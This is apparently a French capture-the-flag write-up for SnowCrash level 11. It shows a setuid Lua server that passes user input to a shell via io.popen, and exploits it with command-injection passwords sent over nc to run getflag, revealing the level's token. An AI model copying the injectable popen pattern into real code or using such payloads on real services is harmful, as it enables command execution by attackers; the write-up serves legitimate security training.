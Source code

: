 
# **Level 11**

Pour le level11, nous avons un fichier en `.lua` qui semble faire tourner un server en `localhost:5151`

```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

On remarque rapidement que le echo semble interpreter la chaine de caractere passer en parametre donc on se connecte au server

```
level11@SnowCrash:~$ nc localhost 5151
Password:
```

Et on rentre en mot de passe un subshell qui execute `getflag`

```
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag > /var/crash/flag)
Erf nope..
level11@SnowCrash:~$ cat /var/crash/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

OU

```
level11@SnowCrash:~$ nc localhost 5151
Password: ;getflag>/var/crash/test
Erf nope..
level11@SnowCrash:~$ cat /var/crash/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

> ### NEXT : [Level 12](/level12/resources/README.md)
